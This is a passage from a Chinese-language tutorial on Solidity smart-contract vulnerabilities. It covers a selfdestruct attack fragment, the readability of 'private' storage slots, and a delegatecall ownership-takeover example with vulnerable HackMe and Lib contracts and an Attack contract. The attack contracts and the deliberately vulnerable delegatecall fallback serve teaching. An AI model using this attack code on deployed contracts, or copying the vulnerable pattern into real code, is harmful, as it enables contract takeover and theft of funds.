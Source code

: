 ```solidity

    function attack() public payable {
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```

### 数据私有属性的误解

标注为 `private` 区域的数据并不是不能访问，它们存储在一个又一个的 `slot` 里，如果读者不熟悉的话，可以阅读[博客](https://zhuanlan.zhihu.com/p/463670521)中关于 EVM 的存储空间的解释。

 

### delegatecall

代理调用时会用调用者的上下文替代被调用者的上下文，例如下面 `HackMe` 中的回退函代理调用 `lib` 的 `pwn` 函数时，在 `lib` 中的变量 `owner` 将会是 `HackMe` 中的 `owner`，因此 `pwn()` 中修改的实际上的 `HackMe` 的 `owner`，`msg` 对象是 `HackMe` 中的 `msg` 对象，也就是调用 `HackMe` 的人。

例如：

`Attack.attack ` 调用 `HackMe` ，然后找不到 `pwn()` 这个函数签名，因此跳转到回退函数，然后回退函数调用 `Lib`，匹配到了函数签名，但是由于上下文切换，造成了 `HackMe` 的全局变量被意外修改。 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}

```
